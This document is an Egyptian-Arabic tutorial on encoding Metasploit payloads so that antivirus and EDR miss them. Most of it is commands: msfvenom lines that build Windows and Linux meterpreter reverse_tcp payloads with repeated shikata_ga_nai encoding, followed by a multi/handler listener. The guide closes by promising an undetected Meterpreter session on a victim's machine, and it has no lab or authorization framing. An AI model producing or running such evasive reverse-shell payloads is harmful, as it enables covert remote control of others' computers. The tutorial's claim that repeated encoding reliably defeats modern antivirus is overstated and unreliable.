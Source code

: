 # **🔹 تشفير الـ Payloads لتخطي الحماية ببساطة 🔹**

## **📌 يعني إيه Encoding؟**

✅ التشفير (Encoding) هو عملية **تعديل البيانات بحيث تفضل شغالة لكن تبقى غير قابلة للاكتشاف بسهولة**.  
✅ لما تعمل **Payload باستخدام MSFVenom**، برامج الحماية (Antivirus و EDR) ممكن تكتشفه، فبنستخدم **Encoders** عشان نخفيه.  
✅ التشفير **مش نفس التشفير الأمني (Encryption)**، هو بس بيغير شكل البيانات بدون حماية فعلية، لكن الهدف هنا هو **تجنب اكتشافه**.

---

## **🔥 ليه بنستخدم Encoding؟**

❌ برامج الحماية عندها قواعد (Signatures) بتتعرف بيها على الـ Payloads المشهورة.  
❌ لو حاولت تستخدم **Payload عادي من غير تشفير**، هيتكشف بسهولة.  
✅ الحل هو **استخدام Encoder** عشان نغير البصمة الرقمية بتاعت الـ Payload.

---

## **🛠️ أشهر Encoders في Metasploit**

💻 لو عايز تشوف كل الـ Encoders المتاحة في Metasploit:

```bash
msfvenom -l encoders
```

⬅️ هيظهرلك **قائمة بالـ Encoders** اللي ممكن تستخدمها.

### **🔹 1. أشهر Encoder: Shikata Ga Nai**

✅ هو أشهر Encoder، بيستخدم طريقة **XOR-based encryption** عشان يغير شكل الـ Payload.  
✅ لما تستخدمه، **كل مرة بيطلع لك شكل مختلف للـ Payload**، وده بيقلل احتمالية اكتشافه.  
✅ ينفع مع **أنظمة الويندوز واللينكس**.

---

## **💡 إزاي نستخدم Encoding مع MSFVenom؟**

### **🟢 1. توليد Payload عادي (بدون تشفير)**

لو عايز تولد **Reverse Shell عادي للويندوز بدون تشفير**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

⬅️ لو شغلته على جهاز فيه **Antivirus قوي**، هيتم اكتشافه فورًا! 🚨

---

### **🟢 2. توليد Payload مشفر باستخدام Shikata Ga Nai**

لو عايز **تخفي الـ Payload عن برامج الحماية**، استخدم الـ Encoder كالتالي:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```

✅ **-e x86/shikata_ga_nai** → استخدم Encoder اسمه shikata_ga_nai.  
✅ **-i 10** → عيد التشفير 10 مرات عشان تزود التمويه.  
✅ **-f exe** → حفظه كملف تنفيذي للويندوز.

🎯 **كل مرة تشغل الأمر ده، هيطلع لك Payload مختلف، صعب على برامج الحماية اكتشافه!** 🔥

---

### **🟢 3. توليد Payload مشفر لنظام لينكس**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf > encoded.elf
```

✅ نفس الطريقة لكن هنا الـ Payload متوافق مع **لينكس** وحفظناه بصيغة **ELF**.

---

## **🔐 التحقق من تشفير الـ Payload**

بعد ما تولد الـ Payload المشفر، تقدر **تتأكد إنه مختلف عن الأصلي** باستخدام أداة `msfvenom` نفسها:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -f raw | msfvenom -e x86/shikata_ga_nai -i 5 -f raw | hexdump -C | less
```

✅ ده بيعرض **التغييرات اللي حصلت في الـ Payload بعد التشفير**.

---

## **💡 الخلاصة بالمصري:**

1️⃣ **Encoding هدفه يخفي الـ Payload عن برامج الحماية مش تشفيره فعليًا.**  
2️⃣ **أشهر Encoder هو `shikata_ga_nai`، بيستخدم XOR عشان يغير شكل الـ Payload كل مرة.**  
3️⃣ **كل ما زودت عدد التكرارات (`-i`)، كل ما بقى أصعب على برامج الحماية تكتشفه.**  
4️⃣ **لو شغلت الـ Payload المشفر، هيشتغل بنفس الوظيفة لكنه هيكون أصعب في الاكتشاف.**

---

## **🛠️ خطوات عملية لتشفير الـ Payload واستخدامه في Metasploit**

✅ **1. توليد Payload مشفر:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > bypass.exe
```

✅ **2. إعداد Metasploit لاستقبال الاتصال:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload المشفر على جهاز الضحية، هتوصلك جلسة Meterpreter من غير ما الـ Antivirus يكتشفها!** 🔥